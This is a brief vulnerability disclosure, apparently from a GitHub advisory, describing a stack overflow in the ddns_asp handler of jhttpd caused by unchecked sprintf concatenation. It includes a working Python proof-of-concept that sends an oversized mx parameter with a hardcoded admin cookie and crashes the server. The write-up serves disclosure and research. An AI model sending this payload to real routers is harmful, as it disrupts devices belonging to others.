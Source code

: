 In the ddns_asp function of jhttpd, several parameters are obtained

![img](./picture/pic1.png) 

![img](./picture/pic2.png) 

If opt=add, then the following arguments will be concatenated to the stack variable via the sprintf function

![img](./picture/pic3.png) 

Because the parameter length is not verified, the stack overflow vulnerability will be caused by the long parameter during splicing

Or use FirmAE to simulate directly, connect to the shell, and run jhttpd in it

![img](./picture/pic4.png) 

and then send the payload

import requests
url="http://192.168.0.1/ddns.asp?opt=add&mx="+'0'*0x1000
headers={"cookie":"wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
response=requests.get(url=url,headers=headers)
print(response.text)

A segfault was found in jhttpd, which proves that the vulnerability exists

![img](./picture/pic5.png) 
